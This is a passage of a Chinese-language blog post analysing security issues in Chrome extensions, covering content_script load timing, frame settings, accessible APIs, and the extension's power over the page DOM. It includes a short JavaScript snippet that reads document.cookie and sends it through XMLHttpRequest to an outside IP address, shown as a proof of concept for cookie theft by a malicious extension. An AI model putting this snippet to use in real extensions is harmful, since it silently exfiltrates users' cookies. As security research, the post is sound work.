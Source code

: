 而content_script js 主要的特点在于他与页面同时加载，可以访问dom，并且也能调用extension、runtime等部分api，但并不多，主要用于和页面的交互。

`content_script js`可以通过设置`run_at`来设置相对应脚本加载的时机。
- document_idle 为默认值，一般来说会在页面dom加载完成之后，window.onload事件触发之前
- document_start 为css加载之后，构造页面dom之前
- document_end 则为dom完成之后，图片等资源加载之前

并且，`content_script js`还允许通过设置`all_frames`来使得`content_script js`作用于页面内的所有`frame`，这个配置默认为关闭，因为这本身是个不安全的配置，这个问题会在后面提到。

在`content_script js`中可以直接访问以下Chrome Ext api：

- i18n
- storage
- runtime:
    - connect
    - getManifest
    - getURL
    - id
    - onConnect
    - onMessage
    - sendMessage

在了解完基本的配置后，我们就来看看`content_script js`可以对页面造成什么样的安全问题。

### 安全问题

对于`content_script js`来说，首当其中的一个问题就是，插件可以获取页面的dom，换言之，插件可以操作页面内的所有dom，其中就包括非httponly的cookie.

这里我们简单把`content_script js`中写入下面的代码

```
console.log(document.cookie);
console.log(document.documentElement.outerHTML);
var xhr = new XMLHttpRequest();
xhr.open("get", "http://212.129.137.248?a="+document.cookie, false);
xhr.send()
```

然后加载插件之后刷新页面
![image.png-26.5kB][1]

可以看到成功获取到了页面内dom的信息，并且如果我们通过xhr跨域传出消息之后，我们在后台也成功收到了这个请求。
![image.png-18.4kB][2]

这也就意味着，如果插件作者在插件中恶意修改dom，甚至获取dom值传出都可以通过浏览器使用者无感的方式进行。

在整个浏览器的插件体系内，各个层面都存在着这个问题，其中`content_script js`、`injected script js`和`devtools js`都可以直接访问操作dom，而popup js和background js都可以通过chrome.tabs.executeScript来动态执行js，同样可以执行js修改dom。

除了前面的问题以外，事实上`content_script js`能访问到的chrome api非常之少，也涉及不到什么安全性，这里暂且不提。

## popup/background js

popup js和backround js两个主要的区别在于加载的时机，由于他们不能访问dom，所以这两部分的js在浏览器中主要依靠事件驱动。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gog064w9i74jp8spovjx6b5k/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k5n0dl5wz572799jobw1rlp4/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gs6pjwng6ef4e5pm3f8ddf7w/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d45lnadt8bj2vl5qn9grewd8/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lnx91aip2ys4ftvm0ph2v30e/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mmrr812o6yihnwim2alk455s/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3rj51mha9diw4ec1fgfn68up/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o0pw344r18izbm1nbndu954m/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/p7dnp9i1kf3avv6b61ti265d/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5nlpjgjxuyfdnyfhklta9xn5/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ps4ruuic7p6vgfyibbyiig7w/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vf4ze36narapdqvydmgwash9/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/p70ryaplmmydm41qcc2l4vk2/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i14bfplp9aqntw1q4wh89ruv/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pdlwo8868euvuvjfrlgozbzw/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0pookmiu4lw9kfyp0yshrwwv/image.png
  [17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7xds0r9fv9s7oztlt56q29bj/image.png
  [18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3ipanb6l36amvsggbj6hunjm/image.png
  [19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tz86cdzv9pif44szwraexpk8/image.png
  [20]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5kufzdrc3us38lo18r4l3l96/image.png
  [21]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bcepsvyrasq5nsq7m5mzq7re/image.png